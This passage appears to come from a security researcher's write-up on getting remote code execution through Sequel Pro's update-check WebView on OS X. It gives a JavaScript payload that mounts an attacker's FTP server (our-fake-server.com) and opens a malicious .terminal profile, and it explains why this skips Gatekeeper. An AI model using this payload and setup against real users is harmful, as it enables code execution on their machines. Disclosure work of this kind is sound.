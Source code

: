 After checking for an update inside SequelPro app, Google website appears in our web browser, which means that the built-in WebView component executes JavaScript code.

To sum up:

- We have a running MITM attack
- We control JavaScript code executed on the client side (we can just open the user's browser and redirect them to a malicious website with 0day checks)

However, what if a malicious site is not capable of finding an exploit for the specific browser? It is not exploitable then by just redirecting the user to a malicious website. Let's abuse the WebView component.

## Abusing Webkit, WebView component

This part is tricky. I tested many different solutions to exploit this WebView component, and failed many times. Matt just gave me a hint in his article [_XSS to RCE in Atlassian Hipchat_](http://maustin.net/hipchat_rce/). It was the missing piece of the puzzle -- executing the external application right from the WebView component.

Before we exploit this issue we need to:

- Set up an FTP server (our-fake-server.com) to host our malicious code
- Run the HTTP server to act as an AppCast server
- Redirect user traffic from the www.sequelpro.com original IP address to our fake HTTP server

When we are ready, we just need to replace our previous JavaScript snippet with modified code:

```
<description><![CDATA[
<h1 style="color: red;">Remote Code Execution</h1>
<script type="text/javascript">
 window.location = 'ftp://anonymous:[email protected]/';
 window.setTimeout(function() {
 window.location = 'file:///Volumes/our-fake-server.com/UPGRADE.terminal';
 }, 1000);
</script>
]]></description>
```

Our `UPGRADE.terminal` file is an exported setting profile from the Terminal app (Terminal -> Preferences -> Profiles). Inside the "Shell" tab of selected profile, there is a possibility to add a startup command to execute immediately after loading a profile.

![Terminal -> Preferences -> Profiles](https://vulnsec.com/assets/images/posts/osx-apps-vulnerabilities/screenshot.2.png)

After our `UPGRADE.terminal` file is ready we can set up everything needed and start our attack. Remember that the user does not need to check for an update manually because applications do those checks periodically; it means that you can just wait for an appropriate update request from the app and then exploit it.

This simple trick worked because:

- When you are opening an external resource like FTP, SMB or AFP, then OS X is mounting it automatically under `/Volumes/` path.
- We know the path to the resource because directory name is the same as the server name. As a result, we have the full path of `/Volumes/our-fake-server.com/`.
- We opened app with the `.terminal` extension as a script. OS X is not looking for a signature/certificate and is not validating an app downloaded from the internet. It basically skips [Gatekeeper](https://en.wikipedia.org/wiki/Gatekeeper_(OS_X)) validation.
